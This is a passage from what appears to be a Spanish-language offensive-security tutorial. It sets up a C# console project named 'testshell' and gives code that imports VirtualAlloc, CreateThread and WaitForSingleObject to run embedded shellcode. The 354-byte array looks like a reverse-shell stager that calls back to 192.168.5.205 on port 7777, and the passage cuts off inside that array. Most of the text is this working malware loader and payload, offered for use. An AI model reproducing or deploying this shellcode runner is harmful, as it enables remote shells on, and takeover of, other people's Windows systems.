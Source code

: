 Vamos a darle a `Crear un proyecto` -> vamos a filtrar por la siguiente informacion `C#`, despues `Windows` y por ultimo `Consola` -> seleccionaremos el llamado `Aplicacion de consola (.NET framework)` -> `Siguiente` -> lo nombraremos como `testshell` -> `Crear`.

Cuando lo tengamos creado, el codigo que viene por defecto lo eliminamos entero ya que no nos va hacer falta, vamos a importar algunas librerias que nos va hacer falta junto con el codigo que vamos a utilizar:

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;

namespace WIn32

{
    class Program
    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]

        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddess, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]

        static extern UInt32 WaitForSingleObject(IntPtr hHandler, UInt32 dwMilliseconds);

        static void Main (string[] args)
        {

            byte[] buf = new byte[354] {0xfc,0xe8,0x8f,0x00,0x00,0x00,
0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,
0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,
0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,
0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,
0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,
0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,0x85,0xc9,0x74,
0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,
0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,
0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,
0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,
0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,
0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,
0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,
0x6a,0x0a,0x68,0xc0,0xa8,0x05,0xcd,0x68,0x02,0x00,0x1e,0x61,
0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,
0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,
0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,
0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,
0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,
0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,
0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,
0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,
0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,
```